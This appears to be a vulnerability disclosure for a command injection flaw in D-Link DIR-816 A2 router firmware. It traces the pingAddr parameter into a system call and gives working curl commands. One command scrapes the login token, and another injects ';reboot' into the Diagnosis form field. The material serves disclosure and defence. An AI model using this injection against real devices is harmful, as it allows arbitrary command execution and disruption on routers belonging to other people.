

# Dlink DIR-816 Command injection vulnerability
## Overview
- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-816

## Vulnerability information
There is an Command injection vulnerability in Dlink DIR-816A2_FWv1.10CNB05, which can execute arbitrary command in route system.

## Affected version


Figure shows the latest firmware ：A2_FWv1.10CNB05 of the router
## Vulnerability details
The hardware version can be found is A2 1.10 on the web.


In goahead, we can find the code details in sub_45AC4C,the program passes the contents obtained by the pingAddr parameter to V2.


Then, format the matching content of V2 through the snprintf function into V10.



The V10 parameter is called by the function doSystembk().  
There is a command injection vulnerability.  

## Vulnerability exploitation condition
Need to get cookie to execute the attack.

## Recurring vulnerabilities and POC
In order to reproduce the vulnerability, the following steps can be followed:
1. Connect physical devices
2. Attack with the following shell command

Poc is as follows
```bash
TOKENID=`curl -s http://192.168.0.1/dir_login.asp | grep tokenid | head -1 | grep -o 'value="[0-9]*"' | cut -f 2 -d = | tr -d '"'`
```
```bash
curl -i -X POST http://192.168.0.1/goform/Diagnosis -d tokenid=$TOKENID -d 'pingAddr=192.168.0.1;reboot'
```

After running poc, the effect is as follows: the router restarts, and there is no connection to the router.


## CVE-ID
unsigned
